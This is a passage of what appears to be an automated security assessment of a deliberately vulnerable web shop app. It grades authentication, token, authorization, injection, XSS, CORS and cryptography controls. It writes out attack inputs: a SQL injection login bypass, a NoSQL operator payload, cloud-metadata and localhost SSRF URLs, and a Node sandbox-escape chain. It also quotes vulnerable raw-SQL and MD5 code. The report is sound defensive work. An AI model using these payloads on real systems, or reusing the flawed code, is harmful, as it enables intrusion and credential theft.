MFA is optional - neither admin accounts nor accounts with elevated privileges are required to enroll. An attacker who bypasses password login via SQL injection (see 🔴 [F-010](#f-010) — SQL Injection Authentication Bypass — `routes/login.ts:34`) or who forges a JWT (see 🔴 [F-001](#f-001) — Hardcoded RSA Private Key Enables JWT Forgery — `lib/insecurity.ts:54`, 🔴 [F-007](#f-007) — JWT verify call missing algorithms allowlist — `lib/insecurity.ts:191`) is never prompted for a TOTP token. The `POST /rest/2fa/verify` route relies on the same `express-jwt` middleware for session validation, so the algorithm-restriction absence that allows `alg:none` tokens applies here as well.

**Relevant findings**

- 🔴 [F-001](#f-001) — A forged admin JWT bypasses the TOTP step entirely, since the verifier accepts tokens signed with any algorithm.
- 🔴 [F-006](#f-006) — OAuth accounts do not enroll in TOTP and are not prompted for it during the derived-password login flow.
- 🔴 [F-007](#f-007) — Algorithm-restriction absence in the TOTP verification middleware means the second factor protects only the first-factor credential, not the session token.

<a id="social-login"></a><a id="social-login-oauth-oidc"></a>
#### 7.2.3 Social Login (OAuth / OIDC)

**Status:** 🔴 Unsafe - the OAuth flow uses the implicit grant (access token in URL fragment), derives a local password from the Google email address, and omits the state parameter.

Detected in scope: frontend/src/app/oauth

`oauth.component.ts` implements OAuth as a frontend adapter, not a server-side authorization-code flow. `login.component.ts:134` constructs an authorization URL with `response_type=token` (implicit grant), which delivers the `access_token` in the URL fragment on redirect. `oauth.component.ts:28` extracts it from `this.route.snapshot.fragment`, calls Google's userinfo endpoint, derives a local password from the returned email address, creates a local account if one does not exist, and then calls `POST /rest/user/login` with that derived password.

The diagram shows the OAuth adapter path from redirect to local session:

```mermaid
sequenceDiagram
    autonumber
    actor User
    participant SPA as oauth.component.ts
    participant Google as Google UserInfo API
    participant API as Local Login + Registration API

    User->>SPA: Return from Google OAuth redirect (access_token in fragment)
    SPA->>Google: GET userinfo with access_token
    Google-->>SPA: { email, name }
    SPA->>API: POST /api/Users (create account if absent)
    SPA->>API: POST /rest/user/login with derived password
    API-->>SPA: JWT session token
```

**Security assessment**

Three independent weaknesses compound in this flow:

- The implicit grant places the `access_token` in the URL fragment, where it is logged by proxies and accessible to scripts on the page; the authorization-code flow with PKCE is the current best practice.
- The derived password (`oauth.component.ts:30`) is algorithmically predictable from the user's email address. Any attacker who knows or guesses a user's email can call `POST /rest/user/login` with the derived password directly, bypassing OAuth entirely.
- `login.component.ts:134` constructs the authorization URL without a `state` parameter, leaving the callback vulnerable to CSRF.

**Relevant findings**

- 🔴 [F-006](#f-006) — Implicit grant with a predictable derived password allows OAuth authentication to be bypassed via direct local login.
- 🟠 [F-022](#f-022) — Absent state parameter on the OAuth callback enables CSRF-based session fixation.
- 🟡 [F-056](#f-056) — No client-side rate limiting on the login component means the derived-password path is open to credential-stuffing.

### 7.3 Session and Token Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.3.1 JWT algorithm restriction](#731-jwt-algorithm-restriction)
- [7.3.2 JWT signing key rotation](#732-jwt-signing-key-rotation)
- [7.3.3 Token revocation](#733-token-revocation)
- [7.3.4 Secure token storage](#734-secure-token-storage)

**Implemented controls:** `RS256`-signed JWTs are issued via `lib/insecurity.ts:issueAuthToken()` for all login flows; `express-jwt` middleware validates tokens on protected routes; tokens are attached to requests by the HTTP interceptor at `request.interceptor.ts`.

**Assessment:** This application uses a single locally-signed token format (commonly called JWT) for every authenticated session, regardless of the login flow in [§7.2](#72-identity-and-authentication-controls) that established it. The sub-sections below trace one token through its lifecycle: signing on issuance, validation on every protected request, storage in the browser, manual revocation, and time-based expiry. Every stage of that lifecycle is currently broken or absent: the signing key is public, the verifier accepts any algorithm, the token lives in `localStorage` where it is reachable by XSS, and no revocation or expiry enforcement exists.

<a id="jwt-algorithm-restriction"></a>
#### 7.3.1 JWT algorithm restriction

**Status:** 🔴 Missing - no `algorithms` allowlist is passed to `expressJwt` or to the three direct `jwt.verify()` call sites, allowing `alg:none` and `RS256`→`HS256` confusion attacks.

JWT verification is performed in two ways in this codebase: the `expressJwt` middleware configured at `lib/insecurity.ts:54` protects most API routes, and three route handlers (`lib/insecurity.ts:191`, `routes/chatbot.ts:248`, `routes/verify.ts:117`) call `jwt.verify()` directly.

**Security assessment**

`expressJwt({ secret: publicKey })` at `lib/insecurity.ts:54` passes no `algorithms` field. `express-jwt@0.1.3` forwards the algorithm from the token's header directly to `jsonwebtoken.verify()`, which allows the server's public key to be used as an HMAC secret. An attacker can sign a forged token with `HS256` using the public RSA key bytes as the HMAC secret and the server will accept it. The three direct `jwt.verify()` calls at `lib/insecurity.ts:191`, `routes/chatbot.ts:248`, and `routes/verify.ts:117` have the same omission.

**Relevant findings**

- 🟠 [F-003](#f-003) — Tokens stored in `localStorage` are exposed to the XSS paths that could extract and replay them with a forged algorithm header.

<a id="jwt-signing-key-rotation"></a>
#### 7.3.2 JWT signing key rotation

**Status:** 🔴 Missing - the RSA private key is a hardcoded string constant; there is no key rotation path, no secret store integration, and no mechanism to invalidate tokens signed with the old key.

`lib/insecurity.ts:23` defines the RSA private key as a module-level string export. `issueAuthToken()` at line 56 reads it directly: `jwt.sign(payload, privateKey, { algorithm: 'RS256' })`. There is no environment-variable injection or external store reference in this path.

**Security assessment**

Because the key never changes and is embedded in source, every JWT ever issued by every deployment of this application was signed with the same key. Rotation is structurally impossible without a code change and a redeployment - and even after rotation, the old key remains committed in git history. Any token issued before a hypothetical rotation is permanently forgeable from the historical commit.

**Relevant findings**

- 🟠 [F-003](#f-003) — `localStorage` token storage means a successfully extracted token can be replayed indefinitely against an unchanged signing key.

<a id="token-revocation"></a>
#### 7.3.3 Token revocation

**Status:** 🔴 Missing - there is no token blocklist, no server-side session record, and no logout endpoint that invalidates the presented token.

JWTs are stateless by design: the server validates the signature and expiry on each request but keeps no record of issued tokens. The SPA clears the `localStorage` entry on user-initiated logout via `localStorage.removeItem('token')`, but the token itself remains valid until its `exp` claim fires.

**Security assessment**

Without a server-side revocation mechanism (blocklist checked on each request, or short-lived tokens with a refresh-token pattern), a stolen JWT is valid for the full token lifetime. Given the `localStorage` storage path, any XSS vulnerability (see [§7.7](#77-output-encoding-and-rendering-controls)) can extract a valid token and replay it even after the legitimate user logs out. There is no admin endpoint to forcibly invalidate a user's session.

**Relevant findings**

- 🟠 [F-003](#f-003) — `localStorage` storage, combined with absent revocation, means an XSS-extracted token remains valid with no server-side remediation path.

<a id="secure-token-storage"></a>
#### 7.3.4 Secure token storage

**Status:** 🟠 Weak - the JWT is written to `localStorage` on every login and read back on every request, making it accessible to any JavaScript on the page.

⚠ **Anti-pattern:** SPA without BFF

`request.interceptor.ts:13` reads the token with `localStorage.getItem('token')` and attaches it as `Authorization: Bearer` on every HTTP request made by the Angular SPA. `oauth.component.ts:51` writes it to `localStorage` after the OAuth flow, and the login route returns it in the response body for the same storage call.

**Security assessment**

`localStorage` is readable by any same-origin script, which means every XSS vulnerability in this codebase (see [§7.7](#77-output-encoding-and-rendering-controls)) provides a direct path to session token theft. An `HttpOnly Secure SameSite=Strict` cookie, managed server-side by a Backend-for-Frontend proxy, would confine the token to the browser's HTTP stack and make it inaccessible to `document.cookie` or `localStorage` reads from injected scripts. The current design makes XSS equivalent to full session compromise for any affected user.

**Relevant findings**

- 🟠 [F-003](#f-003) — Every XSS sink in the SPA can call `localStorage.getItem('token')` and exfiltrate the session credential, since `localStorage` is not protected by the `HttpOnly` flag.

### 7.4 Authorization Controls

**Verdict:** 🟠 Weak

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.4.1 Route-level authorization](#741-route-level-authorization)
- [7.4.2 Role-based access control](#742-role-based-access-control)

**Implemented controls:** `security.isAuthorized()` middleware is applied to the majority of state-changing API routes; `security.isAdminAuthorized()` guards admin-specific endpoints; Angular route guards at `app.guard.ts` restrict navigation to protected sections.

**Assessment:** Authorization middleware is present but inconsistently applied: `PUT /api/Products/:id` has the middleware commented out at `server.ts:369`, `POST /file-upload` is unguarded at `routes/fileUpload.ts:19`, and the recycles endpoint at `routes/recycles.ts:14` validates session but does not check resource ownership. Client-side Angular guards provide a UI-layer restriction that is trivially bypassed by direct API calls.

<a id="route-level-authorization"></a>
#### 7.4.1 Route-level authorization

**Status:** 🟡 Partial - most routes carry `security.isAuthorized()` middleware, but at least two state-changing endpoints are unguarded or commented-out.

`server.ts` wires `security.isAuthorized()` (an `express-jwt` wrapper that validates the Bearer token) ahead of most mutating route handlers. The guard rejects requests with missing or invalid tokens before the route handler sees the request body.

**Security assessment**

Two specific gaps break the route-level boundary:

- `server.ts:369` has the line `// app.put('/api/Products/:id', security.isAuthorized())` commented out. The Finale-generated `PUT /api/Products/:id` handler runs with no authentication check, allowing any unauthenticated caller to overwrite product records.
- `routes/fileUpload.ts:19` registers `POST /file-upload` without any auth middleware in its middleware chain (`uploadToMemory.single('file')` is the first entry). Any unauthenticated client can upload files.

**Relevant findings**

- 🔴 [F-002](#f-002) — Attacker-controlled `UserId` in request bodies is accepted by routes that should derive ownership from the authenticated session.
- 🟠 [F-004](#f-004) — Missing authentication on the file-upload endpoint allows unauthenticated file staging.
- 🟠 [F-005](#f-005) — Unauthenticated REST routes expose state-changing operations without any session requirement.

<a id="role-based-access-control"></a>
#### 7.4.2 Role-based access control

**Status:** 🟠 Weak - server-side role checks exist for admin endpoints, but client-side Angular guards are the primary enforcement mechanism for several role-restricted routes, and resource-ownership checks are missing.

`security.isAdminAuthorized()` is applied to certain admin-only API paths. At the Angular layer, `app.guard.ts:53` decodes the JWT from `localStorage` client-side and checks `payload.data.role === roles.admin` before permitting navigation to `/administration`.

**Security assessment**

Three weaknesses sit at the role-enforcement boundary:

- The `AdminGuard` at `app.guard.ts:53` is a client-side-only check. Any caller that sends a direct HTTP request to the admin API routes bypasses the guard entirely; the guard never executes in server-side context.
- `routes/recycles.ts:14` calls `RecycleModel.findAll({ where: { id: JSON.parse(req.params.id) } })` and does not filter by the authenticated user's ID, allowing any authenticated user to retrieve another user's recycle records.
- `routes/memory.ts:24` reads `UserId` from `req.body` rather than deriving it from `req.auth`; the `appendUserId()` middleware does set the field in `req.body`, but a crafted request that includes its own `UserId` overwrites it.

**Relevant findings**

- 🔴 [F-002](#f-002) — Systemic pattern of trusting attacker-controlled `UserId` fields in request bodies rather than `req.auth`.
- 🟠 [F-004](#f-004) — Product updates proceed with no authorization check at all.
- 🟠 [F-005](#f-005) — Several sensitive REST routes are reachable without any authentication.

### 7.5 Query Construction and Data Access Controls

**Verdict:** 🟠 Weak

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.5.1 SQL parameterization](#751-sql-parameterization)
- [7.5.2 NoSQL injection prevention](#752-nosql-injection-prevention)

**Implemented controls:** Sequelize ORM backs most relational data access via model-level `findAll`, `findOne`, and `create` calls; model validations constrain field types on standard CRUD paths.

**Assessment:** The ORM is used correctly for most paths, but two high-traffic routes - login and product search - bypass it with raw `models.sequelize.query()` calls that interpolate user-controlled values directly. A third path at `routes/recycles.ts:14` passes a JSON-parsed request parameter as a Sequelize `where` selector, enabling operator-injection on a MarsDB-backed resource.

<a id="sql-parameterization"></a>
#### 7.5.1 SQL parameterization

**Status:** 🟠 Weak - Sequelize is used for most queries, but the login and search routes call raw `models.sequelize.query()` with string-interpolated user input.

Sequelize models back most data access in the codebase. The majority of route handlers call `Model.findAll()`, `Model.findOne()`, or `Model.create()` with structured options objects, which Sequelize converts to parameterized SQL.

**Security assessment**

Two routes escape the ORM and construct raw SQL strings with user-controlled values:

- `routes/login.ts:34` interpolates `req.body.email` and `hash(req.body.password)` directly into a template literal passed to `models.sequelize.query()`. The payload `' OR '1'='1` in the email field bypasses the WHERE clause and returns the first (admin) row.
- `routes/search.ts:23` builds `SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' ...` with the search parameter interpolated. A UNION payload extracts data from arbitrary tables.

The vulnerable login lookup is built as a raw SQL string:

```ts
models.sequelize.query(
  `SELECT * FROM Users WHERE email = '${req.body.email}' AND ` +
  `password = '${hash(req.body.password)}' AND deletedAt IS NULL`
)
```

**Relevant findings**

- 🔴 [F-010](#f-010) — SQL injection on the login route enables full authentication bypass.
- 🔴 [F-017](#f-017) — SQL injection on the search route enables UNION-based data extraction.
- 🟠 [F-026](#f-026) — Additional raw query paths expose data outside the ORM boundary.

<a id="nosql-injection-prevention"></a>
#### 7.5.2 NoSQL injection prevention

**Status:** 🟠 Weak - Sequelize `findAll()` is used correctly on most paths, but `routes/recycles.ts:14` passes a JSON-parsed request parameter directly as the `where` selector.

MarsDB and Sequelize handle product-review, recycle, and basket data. Standard model calls use structured criteria that Sequelize maps to parameterized SQL.

**Security assessment**

`routes/recycles.ts:14` calls `RecycleModel.findAll({ where: { id: JSON.parse(req.params.id) } })`. When `req.params.id` is a JSON object such as `{"$gt": -1}`, Sequelize passes it through to the underlying SQLite query, enabling selector-injection that returns all recycle records regardless of ownership. This is compounded by the missing ownership check (see [§7.4.2 Role-based access control](#role-based-access-control)).

**Relevant findings**

- 🔴 [F-010](#f-010) — SQL injection on the login route shares the same root cause: user-controlled values reaching query construction without sanitization.
- 🔴 [F-017](#f-017) — SQL injection on the search route demonstrates the wider pattern of raw query construction.
- 🟠 [F-026](#f-026) — NoSQL/ORM injection on the recycles endpoint enables cross-user data disclosure via operator injection.

### 7.6 Input Boundary Validation Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.6.1 Validation Approach](#761-validation-approach)
- [7.6.2 File upload validation](#762-file-upload-validation)
- [7.6.3 SSRF prevention](#763-ssrf-prevention)

**Implemented controls:** `multer` enforces a file-size limit on uploads; file extension checks are performed in `routes/fileUpload.ts:68`; `checkUploadSize` middleware enforces a maximum on the upload endpoint.

**Assessment:** Input validation is fragmented and surface-specific. The upload handler checks file extensions but not MIME type or archive content. The profile-image URL handler calls `fetch(url)` with no network-scope restriction. The B2B order handler passes untrusted JSON straight to `safeEval()` at `routes/b2bOrder.ts:23` with no type check, length limit, or structural validation. SSRF and code-execution sinks are present with no boundary controls in front of them.

<a id="validation-approach"></a>
#### 7.6.1 Validation Approach

**Status:** 🔴 Missing - no schema-level input validation framework (e.g. `joi`, `zod`, `express-validator`) is applied consistently across route handlers; critical sinks receive raw user-controlled values.

Most route handlers read from `req.body`, `req.params`, or `req.query` and pass values directly to downstream operations without a validation schema. The exception is a handful of Sequelize model validations (e.g. email format on `Users`) that fire at the persistence layer rather than at the request boundary.

**Security assessment**

Three routes illustrate the missing-validation pattern at sinks that are especially dangerous:

- `routes/b2bOrder.ts:19` assigns `body.orderLinesData || ''` directly to a variable passed to `safeEval()` at line 23. No type check, length limit, or structural schema validates the input before it reaches the JavaScript evaluator (see [§7.6.3 SSRF prevention](#ssrf-prevention) for the eval sinks and 🟠 [F-025](#f-025) — Missing Input Validation on orderLinesData Before Eval — `routes/b2bOrder.ts:19`, 🔴 [F-020](#f-020) — JavaScript Sandbox Escape — `routes/b2bOrder.ts:23`).
- `routes/profileImageUrlUpload.ts:24` calls `fetch(url)` with `url = req.body.imageUrl` directly, applying only a challenge-flag regex check before the network request (see [§7.6.3 SSRF prevention](#ssrf-prevention)).
- `routes/fileUpload.ts:68` checks the file extension by string-splitting `file.originalname` but does not inspect the file's MIME type or magic bytes.

**Relevant findings**

- 🟠 [F-025](#f-025) — Input accepted without structural validation reaches an eval sink.
- 🟠 [F-039](#f-039) — Unvalidated user-supplied URL is fetched server-side without a network-scope allowlist.
- 🟠 [F-040](#f-040) — Upload content is not validated against an expected content type or structure.

<a id="file-upload-validation"></a>
#### 7.6.2 File upload validation

**Status:** 🟠 Weak - a file-size limit and extension check are in place, but content-type validation is absent and the archive extraction loop is vulnerable to path traversal.

`routes/fileUpload.ts` handles two distinct upload surfaces: a general file-upload handler at `POST /file-upload` and a complaint-attachment handler. `checkUploadSize` enforces a byte limit on the general handler; `checkFileType` at line 68 checks the file extension.

**Security assessment**

Two weaknesses break the upload boundary:

- `checkFileType` at `routes/fileUpload.ts:68` determines type by calling `substr(file.originalname.lastIndexOf('.') + 1)` - extension-only, no magic-byte or MIME check. A file named `evil.exe.pdf` passes the extension check.
- The zip extraction loop at `routes/fileUpload.ts:40-49` resolves each entry with `path.resolve('uploads/complaints/' + fileName)` and checks `absolutePath.includes(path.resolve('.'))`. The `includes()` check does not correctly constrain paths with `../` sequences that resolve outside the intended directory, enabling a zip-slip write to arbitrary filesystem locations.

**Relevant findings**

- 🟠 [F-025](#f-025) — Extension-only validation allows disguised executables to be staged on the server.
- 🟠 [F-039](#f-039) — The profile-image upload path accepts a URL rather than a file and is subject to SSRF.
- 🟠 [F-040](#f-040) — Zip-slip path traversal in the complaint handler allows archive entries to write outside the uploads directory.

<a id="ssrf-prevention"></a>
#### 7.6.3 SSRF prevention

**Status:** 🔴 Missing - no outbound URL allowlist or network-scope restriction exists on any fetch sink in the codebase.

`routes/profileImageUrlUpload.ts:24` accepts a URL via `req.body.imageUrl` and calls `fetch(url)` directly. `routes/b2bOrder.ts:23` passes `orderLinesData` to `vm.runInContext(safeEval())`, which can be exploited to make outbound connections from inside the sandbox.

**Security assessment**

Two independent code-execution and outbound-request sinks are present with no input restriction:

- `routes/profileImageUrlUpload.ts:24` applies only a challenge-flag regex before calling `fetch(req.body.imageUrl)`. An attacker can supply `http://169.254.169.254/latest/meta-data/` or `http://localhost:6379/` to probe internal services.
- `routes/b2bOrder.ts:23` calls `safeEval(orderLinesData)` inside `vm.runInContext()`. The sandbox is escapable via prototype chain traversal (`safeEval.constructor.constructor('return process')(...)`), giving access to Node's built-in modules and the ability to make arbitrary network requests (see 🔴 [F-020](#f-020) — JavaScript Sandbox Escape — `routes/b2bOrder.ts:23`).
- `routes/userProfile.ts:62` calls `eval(code)` when `username` matches the `#{...}` pattern, providing a second direct code-execution path with equivalent network access (see 🔴 [F-021](#f-021) — Server-Side Template Injection — `routes/userProfile.ts:62`).

**Relevant findings**

- 🟠 [F-025](#f-025) — Missing input validation on `orderLinesData` before it reaches the eval sink at `routes/b2bOrder.ts:23`.
- 🟠 [F-039](#f-039) — Unvalidated `imageUrl` is passed to `fetch()` at `routes/profileImageUrlUpload.ts:24` without any network-scope restriction.
- 🟠 [F-040](#f-040) — Path traversal in the archive handler provides a filesystem write primitive that compounds the SSRF risk.

### 7.7 Output Encoding and Rendering Controls

**Verdict:** 🟠 Weak

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.7.1 Angular XSS protection](#771-angular-xss-protection)
- [7.7.2 Server-side output encoding](#772-server-side-output-encoding)

**Implemented controls:** Angular's default template escaping is active for the majority of the SPA; `DomSanitizer` is imported and available in all affected components.

**Assessment:** Angular's default sanitizer is deliberately bypassed in five component locations using `bypassSecurityTrustHtml()`, each passing a user-controlled or attacker-influenced string directly to the DOM. The server-side Express API does not apply output encoding to JSON responses containing stored user content; however the primary XSS risk is concentrated in the Angular frontend where the bypasses occur.

<a id="angular-xss-protection"></a>
#### 7.7.1 Angular XSS protection

**Status:** 🟠 Weak - Angular template escaping is active by default, but five call sites explicitly opt out using `bypassSecurityTrustHtml()` with attacker-controlled strings.

Angular's `DomSanitizer` sanitizes values bound to `[innerHTML]` before writing them to the DOM. The intended use of `bypassSecurityTrustHtml()` is for pre-sanitized developer-controlled content where Angular's heuristics are too aggressive.

**Security assessment**

Five components call `bypassSecurityTrustHtml()` with content that flows from user-controlled sources:

- `administration.component.ts:78` - `feedback.comment` (user-submitted feedback stored in the database and rendered in the admin view)
- `search-result.component.ts:132` - `tableData[i].description` (product description that any admin can set to an XSS payload)
- `search-result.component.ts:170` - `queryParam` from the URL query string (reflected XSS directly from the `?q=` parameter)
- `last-login-ip.component.ts:39` - `payload.data.lastLoginIp` extracted from the JWT in `localStorage` (attacker-controlled if the JWT is forged)
- `track-result.component.ts:48` - `results.data[0].orderId` from the API response (stored XSS via order data)

Each bypass turns the affected binding into a raw DOM write with no sanitization.

**Relevant findings**

- 🔴 [F-014](#f-014) — Stored XSS via admin feedback rendering at `administration.component.ts:78`.
- 🔴 [F-015](#f-015) — Stored XSS via product description rendering at `search-result.component.ts:132`.
- 🔴 [F-016](#f-016) — Reflected XSS via URL query parameter at `search-result.component.ts:170`.

<a id="server-side-output-encoding"></a>
#### 7.7.2 Server-side output encoding

**Status:** 🟡 Partial - Express JSON serialization handles most API responses safely, but XML parse error messages leak up to 400 characters of parsed document content in HTTP error responses.

Express's `res.json()` serializes response objects through `JSON.stringify()`, which encodes special characters in string values and prevents JSON injection in standard API responses. HTML templates are not used server-side; the application is a pure JSON API plus static Angular SPA.

**Security assessment**

The main server-side output defect is information disclosure rather than injection. `routes/fileUpload.ts:87` propagates the `libxmljs2` parse error object directly to the HTTP error handler, which includes up to 400 characters of the parsed XML document in the `400 Bad Request` body. An attacker uploading a crafted XML file can use this to exfiltrate fragments of the XXE-expanded content (see 🔴 [F-018](#f-018) — XML External Entity Expansion — `routes/fileUpload.ts:83`) without triggering a full out-of-band channel.

**Relevant findings**

- 🔴 [F-014](#f-014) — Stored XSS payloads originate in user-supplied content that the server stores unmodified and returns to Angular for rendering.
- 🔴 [F-015](#f-015) — Product description XSS similarly passes through the server's JSON API without modification.
- 🔴 [F-016](#f-016) — Reflected XSS originates from a URL parameter that the server echoes back in the search API response.

### 7.8 Browser and Cross-Origin Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.8.1 CORS policy](#781-cors-policy)
- [7.8.2 Content Security Policy](#782-content-security-policy)
- [7.8.3 Security headers](#783-security-headers)

**Implemented controls:** `helmet` is applied in `server.ts` and provides `X-Content-Type-Options: nosniff`, `X-Frame-Options: SAMEORIGIN`, `X-XSS-Protection`, and HSTS. `cors()` middleware is registered.

**Assessment:** Helmet provides a baseline of non-CSP security headers. The CORS middleware accepts all origins by default (`cors()` with no options), and no `Content-Security-Policy` header is emitted, leaving XSS mitigations entirely dependent on Angular's sanitizer - which is selectively bypassed in five locations (see [§7.7](#77-output-encoding-and-rendering-controls)).

<a id="cors-policy"></a>
#### 7.8.1 CORS policy

**Status:** 🔴 Missing - `cors()` is registered with no `origin` allowlist, allowing cross-origin requests from any domain.

`server.ts` applies `app.use(cors())` early in the middleware chain. The `cors` package defaults to `Access-Control-Allow-Origin: *` (or echoing the request's `Origin` header) when no configuration is provided.

**Security assessment**

A wildcard CORS policy allows any web page on any domain to make credentialed cross-origin requests to the API. In combination with the OAuth implicit-grant flow missing a state parameter (🟠 [F-022](#f-022) — Missing OAuth State Parameter Enables CSRF on Authorization Callback — `login.component.ts:134`), a malicious page can use cross-origin fetch to call state-changing API endpoints on behalf of a logged-in user. Adding an explicit `origin` allowlist to the `cors()` call would restrict cross-origin requests to known trusted domains.

**Relevant findings**

- 🟠 [F-022](#f-022) — Missing OAuth state parameter is exploitable precisely because the CORS policy does not restrict which origins can initiate cross-origin requests.

<a id="content-security-policy"></a>
#### 7.8.2 Content Security Policy

**Status:** 🔴 Missing - no `Content-Security-Policy` header is emitted by the server; Helmet's CSP module is not configured.

Helmet is applied at `server.ts` but without the `contentSecurityPolicy` option, which is disabled by default in Helmet v4+. No CSP header appears in application responses.

**Security assessment**

Without a CSP, browsers apply no script-source restriction to the application's origin. Every `bypassSecurityTrustHtml()` XSS path in [§7.7](#77-output-encoding-and-rendering-controls) - and any future `innerHTML` sink introduced by a developer - has full script execution capability. A `default-src 'self'` policy with a nonce for Angular's inline scripts would prevent injected `<script>` tags from loading cross-origin payloads and reduce the blast radius of the five existing XSS bypasses.

**Relevant findings**

- 🟠 [F-022](#f-022) — The missing CSP amplifies the impact of XSS and CSRF findings by removing the browser-level control that would limit what injected scripts can do.

<a id="security-headers"></a><a id="security-headers-helmet"></a>
#### 7.8.3 Security headers

**Status:** 🟡 Partial - Helmet provides `X-Content-Type-Options`, `X-Frame-Options`, HSTS, and `X-XSS-Protection`, but CSP is absent and CORS is permissive.

`server.ts` applies `app.use(helmet())` with default options. This emits `X-Content-Type-Options: nosniff`, `X-Frame-Options: SAMEORIGIN`, `Strict-Transport-Security`, and the legacy `X-XSS-Protection: 0` (disabled by Helmet v4 intentionally, to avoid the IE XSS filter bypass mode).

**Security assessment**

The present headers prevent MIME sniffing, restrict framing to same origin, and enforce transport security over HTTPS. The gaps are: no CSP (see [§7.8.2](#content-security-policy)), and `cors()` with no origin restriction allows cross-site API calls. The `X-XSS-Protection` header is intentionally removed by modern Helmet - this is correct behavior, not a gap - but the CSP that would replace its function is absent.

**Relevant findings**

- 🟠 [F-022](#f-022) — Missing OAuth state parameter is exploitable because the absent CSP and permissive CORS do not restrict what cross-origin scripts can do after a CSRF-forced authentication.

### 7.9 Cryptography Secrets and Data Protection

**Verdict:** 🔴 Unsafe

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.9.1 Password Hashing and Credential Storage](#791-password-hashing-and-credential-storage)
- [7.9.2 Password hashing algorithm](#792-password-hashing-algorithm)
- [7.9.3 Secret management](#793-secret-management)

**Implemented controls:** Passwords are hashed before storage; `lib/insecurity.ts` provides a centralized `hash()` function used consistently at registration and login; `issueAuthToken()` signs tokens with `RS256`.

**Assessment:** The cryptographic controls exist in structure but are defeated by their implementation choices. The password hashing uses unsalted `MD5` - a fast, single-pass hash with no work factor, equivalent to storing a rainbow-table-lookupable value. The RSA private key and JWT signing material are committed in source. The SQLite database is stored unencrypted at `data/juiceshop.sqlite`. None of these are runtime gaps; they are design choices that must be changed in the source.

<a id="password-hashing"></a><a id="password-hashing-and-credential-storage"></a>
#### 7.9.1 Password Hashing and Credential Storage

**Status:** 🔴 Missing - no adaptive hashing algorithm (bcrypt, argon2, scrypt) is used; password hashes are stored as unsalted `MD5` digests.

Passwords are stored in the `Users` table via `models/user.ts:77`, which calls `lib/insecurity.ts:hash()` before persisting. The `hash()` function is also called at login time to hash the submitted password for comparison. All authentication paths use this single helper.

**Security assessment**

`lib/insecurity.ts:43` defines `hash = (data) => crypto.createHash('md5').update(data).digest('hex')`. `MD5` produces a 128-bit digest with no salt and no work factor. A single GPU can compute approximately 8 billion `MD5` hashes per second, making an offline dictionary attack against a compromised `Users` table trivial. Replacing with `bcrypt` (cost ≥ 12) or `argon2id` (memory ≥ 64 MB) would increase per-attempt cost by six or more orders of magnitude.

**Relevant findings**

- 🔴 [F-011](#f-011) — Hardcoded RSA key material used for signing is co-located with the password hashing logic in `lib/insecurity.ts`.
- 🔴 [F-013](#f-013) — Credential storage weakness means any SQL injection dump yields immediately-recoverable plaintext passwords.
- 🟠 [F-034](#f-034) — The unencrypted SQLite file at rest means container storage access yields the full `Users` table and its MD5 hashes.

<a id="password-hashing-algorithm"></a>
#### 7.9.2 Password hashing algorithm

**Status:** 🔴 Unsafe - `crypto.createHash('md5')` is present and used, but it provides no meaningful resistance to offline dictionary attacks.

`lib/insecurity.ts:43` exports the hashing function as a module-level constant used throughout the codebase. The algorithm choice is `md5` - a message-digest function, not a password hashing algorithm. No salt is generated; the same password always produces the same hash.

**Security assessment**

The existing control (`MD5`) is worse than a naive per-user salt because it is both fast and deterministic. Any password that appears in a common wordlist generates the same 32-character hex string regardless of which account stores it. A dump of the `Users` table plus a precomputed rainbow table for `MD5` converts the entire password column to plaintext without GPU computation. This is the canonical "Unsafe" case: the hashing algorithm is present and called consistently, but the algorithm choice defeats the control's purpose entirely.

The weak hash function call that must be replaced:

```ts
export const hash = (data: string): string =>
  crypto.createHash('md5').update(data).digest('hex')
```

**Relevant findings**

- 🔴 [F-011](#f-011) — The hardcoded signing key and weak password hash are both in `lib/insecurity.ts`, concentrating the credential-security failure in one file.
- 🔴 [F-013](#f-013) — Sequelize model hashes passwords with this function before storage, so every account in the database is protected only by MD5.
- 🟠 [F-034](#f-034) — Database at rest is unencrypted, compounding the recovery speed of a stolen hash dump.

<a id="secret-management"></a>
#### 7.9.3 Secret management

**Status:** 🔴 Missing - the RSA private key, JWT signing material, and any other secrets are embedded as string literals in `lib/insecurity.ts` with no runtime injection path.

`lib/insecurity.ts` exports the RSA-2048 private key (`privateKey`, line 23), the matching public key (`publicKey`, line 30), and the JWT-issuing helper (`issueAuthToken`). No environment-variable interpolation or external secret store is referenced in this file.

**Security assessment**

Two secrets are committed and static:

- The RSA private key at `lib/insecurity.ts:23` is used to sign every JWT. It is present verbatim in every git clone, Docker image, and CI artifact.
- The `cookieParser` secret and any other string secrets are similarly hardcoded. There is no `.env` loading (e.g. `dotenv`) or external vault integration (e.g. HashiCorp Vault, AWS SSM Parameter Store) in the application startup path.

Rotating either secret requires a source code change and a full deployment, and the old value remains in git history indefinitely.

**Relevant findings**

- 🔴 [F-011](#f-011) — Hardcoded RSA private key is the direct secret that enables JWT forgery.
- 🔴 [F-013](#f-013) — The same file also contains the password-hashing function, concentrating credential-protection logic with committed key material.
- 🟠 [F-034](#f-034) — No encryption at rest for the database means a container escape yields both the credential hashes and the secret material needed to forge tokens against them.

### 7.10 File Parser and Outbound Request Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.10.1 XML parser security](#7101-xml-parser-security)
- [7.10.2 Archive extraction safety](#7102-archive-extraction-safety)
- [7.10.3 SSRF defense](#7103-ssrf-defense)

**Implemented controls:** `multer` enforces upload size limits; `libxmljs2` is used for XML parsing (available with safe configuration options); `unzipper` is available for archive extraction.

